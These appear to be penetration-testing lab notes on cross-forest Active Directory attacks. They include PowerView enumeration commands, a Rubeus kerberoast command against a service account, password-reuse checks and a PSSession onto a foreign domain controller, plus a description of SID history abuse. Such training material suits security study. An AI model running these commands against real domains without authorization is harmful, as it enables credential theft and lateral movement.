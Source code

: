 
**I. Cross-Forest Kerberoasting**

**Concept:** Performing Kerberoasting across domain trusts to obtain credentials for accounts in other domains.

**Steps:**

1. **Enumerate SPNs:**
    - Use PowerView:
        
        ```powershell
        Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
        ```
        
2. **Verify account privileges:**
    - Use PowerView:
        
        ```powershell
        Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc | select samaccountname,memberof
        ```
        
3. **Perform Kerberoasting:**
    - Use Rubeus with the `/domain:` flag:
        
        ```powershell
        .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
        ```
        
4. **Crack the hash:**
    - Use Hashcat to crack the obtained hash.

**Key Takeaway:**

- Exploiting trusts to gain access to privileged accounts in other domains.

---

**II. Admin Password Re-Use & Group Membership**

**Password Re-Use:**

- Checking for password reuse across domains with bidirectional trusts.
- If an attacker gains credentials in one domain, they might work in another.

**Group Membership:**

- Enumerating foreign group memberships to find accounts with cross-domain privileges.

**Commands:**

```powershell
Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL
Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500
```

**Verify Access:**

```powershell
Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator
```

**Key Takeaway:**

- Exploiting weak password management and misconfigured group memberships.

---

**III. SID History Abuse - Cross Forest**

**Concept:**

- Abusing SID history across forest trusts when SID filtering is not enabled.
- Allows accounts to retain privileges from their original domain after migration.

**Mechanism:**

- Adding SIDs from one forest to the `sidHistory` attribute of accounts in another.
- The user retains the rights of the added SID in their token.

**Key Takeaway:**

- Exploiting misconfigurations in trust relationships to maintain or gain privileges.

---

**IV. Important Considerations:**

- Cross-forest attacks can significantly expand an attacker's reach.
- Enumeration and verification are crucial steps.
- Password reuse is a very common issue.
- SID filtering is very important to have enabled.